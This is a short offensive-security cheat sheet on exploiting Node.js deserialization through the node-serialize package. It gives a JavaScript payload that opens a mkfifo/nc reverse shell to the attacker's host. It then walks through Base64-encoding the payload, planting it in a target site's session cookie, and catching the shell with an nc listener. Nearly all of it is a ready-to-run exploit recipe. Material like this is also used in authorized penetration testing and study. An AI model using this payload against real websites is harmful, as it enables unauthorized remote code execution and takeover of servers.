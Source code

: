 ```yaml
---
title: Node.js Deserialization Attack
desc: Node.js deserialization is vulnerable to remote command executions.
tags: [Deserialization, Deserialize, JavaScript, JS, Node, RCE, Reverse, Serialize, Shell, Web]
alts: [Reverse-Shell]
render_with_liquid: false
---
```


First, you need to install a npm package.

```bash
npm install node-serialize
```

Create the payload for serialization to execute a reverse shell.  
For instance, the file is named “serialize.js”.

```jsx
let y = {
  rce: function() {
    let childProcess = require('child_process');
    childProcess.exec('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <local-ip> <local-port> >/tmp/f', (error, stdout, stderr) => {
        console.log(stdout);
    });
  }
};

let serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

Then execute it to generate the payload.

```bash
node serialize.js
```

Copy the output and encode it by Base64, then copy the encoded text.  
Paste it to the Cookie value of HTTP header in target website.

```bash

Cookie: session=eyJyY2U...iAgfSJ9==
```

Start a listener for reverse shell

```bash
nc -lvnp <local-port>
```

In target website, reload the page.  
You should get a shell.